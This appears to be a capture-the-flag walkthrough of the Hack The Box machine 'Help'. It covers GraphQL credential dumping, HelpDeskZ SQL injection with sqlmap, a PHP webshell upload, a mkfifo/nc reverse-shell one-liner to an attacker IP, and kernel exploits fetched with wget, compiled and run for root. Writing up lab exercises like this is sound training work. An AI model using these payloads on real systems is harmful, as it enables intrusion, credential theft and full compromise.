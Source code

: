## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

- **Initial Access**: GraphQL → HelpDeskZ Authenticated SQLi / Unauth File Upload
- **Privilege Escalation**: Kernel Exploit (CVE-2017-16995, etc.)

---

## 🔍 Recon

### 🔎 Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.121
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,3000 -oA nmap/scripts 10.10.10.121
```

---

## 🌐 Web Recon – Port 3000 (GraphQL)

### 📊 Discover Schema
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```

### 📚 View User Type Fields
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq
```

### 🔐 Dump User Credentials
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ user { username password } }" }' | jq
```

- **Username**: `helpme@helpme.com`  
- **Password (MD5)**: `5d3c93182bb20f07b994a7f617e99cff`  
- **Cracked**: `godhelpmeplz`

---

## 🌐 Web Recon – Port 80 [(Apache)](HTTP)

### 🧭 Directory Brute Force
```bash
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```

### 🔍 Discover `/support` (HelpDeskZ)
Login with:
- **Email**: `helpme@helpme.com`
- **Password**: `godhelpmeplz`

---

## 🐚 Shell Access – Method 1: SQLi via Ticket Attachment

### 🔎 Identify SQLi
Modify param in:
```
http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6
```

Try:
- `...6 AND 1=1-- -` → ✅
- `...6 AND 1=2-- -` → ❌

### ⚙️ Dump with sqlmap
1. Save request in Burp (e.g., `ticket_attachment.request`)
2. Run:
```bash
sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[] --dump
```

### 🔐 Extracted Creds
- **Username**: `admin`
- **Password**: `Welcome1`

### 🔑 [SSH](SSH) as help
```bash
ssh help@10.10.10.121
# Password: Welcome1
```

---

## 🐚 Shell Access – Method 2: File Upload Exploit

### ⚙️ Upload Webshell
Use:
```php
<?php system($_REQUEST['cmd']); ?>
```

### 🔍 Brute Upload Location (based on time + md5)
```python
# Save as exploit.py
./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

### 🧪 Webshell Test
```bash
curl http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=id
```

### 🎯 Reverse Shell Payload
```bash
curl 'http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
nc -lnvp 443
```

---

## 🧬 Shell Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

---

## ⬆️ Privilege Escalation (help → root)

### 📌 Kernel Version
```bash
uname -a
# 4.4.0-116-generic
```

### 🧠 Use Exploits (CVE-2017-16995)
- Move to `/dev/shm`
- Start web server:
```bash
python3 -m http.server 80
```

- On target:
```bash
wget http://10.10.14.4/44298.c
gcc -o a 44298.c
./a
```

Or:

```bash
wget http://10.10.14.4/45010.c
gcc -o a 45010.c
./a
```

Or:

```bash
wget http://10.10.14.4/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## 🏁 Final Flags

### 🧑‍💻 User Flag
```bash
cat /home/help/user.txt
```

### 👑 Root Flag
```bash
cat /root/root.txt
```
